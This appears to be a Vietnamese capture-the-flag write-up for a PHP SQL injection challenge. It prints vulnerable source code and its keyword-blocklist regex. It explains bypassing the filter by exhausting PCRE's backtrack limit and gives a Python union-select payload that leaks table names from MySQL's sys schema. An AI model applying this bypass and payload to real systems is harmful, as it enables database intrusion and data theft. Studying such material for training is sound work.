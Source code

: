 ```phtml
    </form>
</center>

<?php
if (isset($_POST['id']) && !empty($_POST['id'])) {
    if (preg_match('/and|or|in|if|case|sleep|benchmark/is', $_POST['id'])) {
        die('Tet nhat ai lai hack nhau :(, very dangerous key word');
    } elseif (preg_match('/order.+?by|union.+?select/is', $_POST['id'])) {
        die('Tet nhat ai lai hack nhau :(, very dangerous statement');
    } else {
        $user = mysqli_query($conn, "SELECT * FROM users WHERE id=" . $_POST['id'])->fetch_assoc()['username'];
        if ($user !== 'admin') {
            echo 'Hello ' . htmlentities($user);
            if ($user === 'admin') {
                echo 'This can\'t be =]] Just put here for fun lul';
                die($flag);
            }
        }
    }
}
?>
```
Dòng 4 chúng ta có 1 hint của tác giả là phải sử dụng SQL Injection và leak được flag ở 1 column Y và table X nào đó mà chúng ta chưa biết trong database.

Chúng ta bị chặn sử dụng câu lệnh `order by` và `union select`, đặc biệt lưu ý là cụm `in` cũng bị chặn, điều này dẫn đến sẽ có đôi chút khó khăn để ta lấy được table name và column name từ `information_schema` cũng như các database có prefix `innodb`.

Nhưng chúng ta có thể bypass `preg_match` ở dòng 21 bằng cách làm cho PCRE (Engine xử lí Regular Expression trong PHP) xử lí input của ta, làm cho vượt quá backtrack limit mặc định [của](https://www.php.net/manual/en/pcre.configuration.php) [PHP](https://stackoverflow.com/a/40426462). Bằng cách này, chúng ta có thể sử dụng `order by` hay `union select` dễ dàng.

### Get table name
Mình quyết định sử dụng view `x$ps_schema_table_statistics_io` có trong database `sys` vì theo như [MySQL documentation](https://dev.mysql.com/doc/refman/5.7/en/sys-schema-table-statistics.html) mô tả:
```
These views summarize table statistics. By default, rows are sorted by descending total wait time (tables with most contention first).
```
và trong view này cũng có chứa 2 columns là `table_schema` và `table_name`.

```python
res = requests.post('http://45.77.240.178:8002/index.php', data={
    'id': '5 union/*' + 'a'*1000000 + '*/select 1,group_concat(table_name),3 from sys.x$ps_schema_table_statistics_io where table_schema=database()'
})
```

![](https://i.imgur.com/xKdXXBS.jpg)
